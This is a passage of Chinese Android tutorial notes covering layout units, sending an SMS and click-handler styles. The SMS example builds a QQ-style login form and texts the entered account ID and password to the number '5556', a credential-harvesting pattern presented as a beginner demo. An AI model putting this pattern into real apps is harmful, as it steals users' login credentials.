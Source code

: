 ```xml
```

#### 5、安卓控件的宽高单位

* px (pixels)： 像素（同样像素，不同的大小的手机显示不一样）
* dip或dp (device independent pixels)： 设备独立像素（与当前屏幕相关后的计算值）
* sp (scaled pixels — best for text size)： 比例像素

除了上面三个显示单位，下面还有几个不太常用：

* in (inches) 英寸
* mm (millimeters) 毫米  
* pt (points)点，1/72英寸

**为了适应不同分辨率, 不同的像素密度, 推荐使用dip/dp, 文字使用sp.**

#### 6、发送一个短信

```java
public class MyActivity extends Activity {
    /**
     * Called when the activity is first created.
     */
    private EditText id;
    private EditText password;
    private Button login;

    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        //设置当前的应用程序的欢迎页面
        setContentView(R.layout.message);
        //初始化button控件
        id = (EditText) findViewById(R.id.qq_id);
        password = (EditText) findViewById(R.id.qq_password);
        login = (Button) findViewById(R.id.login);

        login.setOnClickListener(new View.OnClickListener() {
            public void onClick(View view) {
                String numValue = id.getText().toString();
                String pawValue = password.getText().toString();
                //发短信给我
                SmsManager smsManager = SmsManager.getDefault();
                //目的地，源地址，发送的文本数据，发送成功的报告，对方开机后收到短信的报告
                smsManager.sendTextMessage("5556","554",numValue+" "+pawValue,null,null);
            }
        });

    }
}
```

#### 7、点击事件的四种方法

* 通过匿名内部类的形式：new OnClick...（同上，自动匹配）

* 使用内部类（推荐）：内部类名 implements View.onClickListener

* 当按钮很多的时候，可以让MainActivity类去实现.onClickListener接口（推荐）：setOnClickListener（this）

* 在控件的xml文件中，直接添加onclick（不推荐）：android:onClick="login"

	* 注：login是方法，在main中直接写public void login(View v){...}

